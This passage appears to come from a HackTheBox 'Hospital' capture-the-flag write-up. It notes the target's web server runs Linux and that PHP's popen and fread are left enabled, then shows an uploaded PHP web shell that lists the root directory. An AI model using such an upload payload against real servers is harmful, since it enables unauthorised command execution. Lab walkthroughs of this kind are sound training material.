![](../../.gitbook/assets/htb-hospital-image-5.png)

Interestingly, the web server is running on a Linux instance despite the machine being labelled as Windows.

![](../../.gitbook/assets/htb-hospital-image-6.png)

When checking all the functions, it seems that `popen` and `fread` are not disabled, allowing me to upload this:

```php
<?php
echo fread(popen("/bin/ls /", "r"), 4096);
?>
```

The above allows some basic form of commands to be run:
